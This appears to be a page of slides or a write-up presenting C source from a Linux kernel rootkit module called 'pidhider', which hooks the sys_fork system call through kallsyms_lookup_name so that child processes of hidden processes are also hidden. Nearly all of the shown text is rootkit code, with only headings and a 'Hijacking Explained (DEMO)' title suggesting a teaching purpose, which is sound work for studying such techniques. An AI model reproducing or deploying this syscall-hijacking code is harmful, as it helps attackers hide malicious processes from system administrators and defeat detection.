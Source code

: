 # Handling Forks

## Init and Cleanup

```{.c .numberLines}
static long (*sys_fork)(void);

int pidhider_init(void)
{
    /* ... */

    sys_fork = (void*) kallsyms_lookup_name("sys_fork");

    /* error handling */

    hijack(sys_fork, thor_fork);
}

void pidhider_cleanup(void)
{
    if (sys_fork != NULL) {
        unhijack(sys_fork);
    }
}
```

## `thor_fork()`

```{.c .numberLines}
static long thor_fork(void)
{
    bool hidden = is_pid_hidden(current->pid);
    long ret;

     unhijack(sys_fork);
     ret = sys_fork();
     hijack(sys_fork, thor_fork);

     /* if mother process was hidden child process */
     if(hidden && ret != -1 && ret != 0) {
         add_to_pid_list((unsigned short) ret);
     }

     return ret;
}
```

# Hijacking Explained (DEMO)
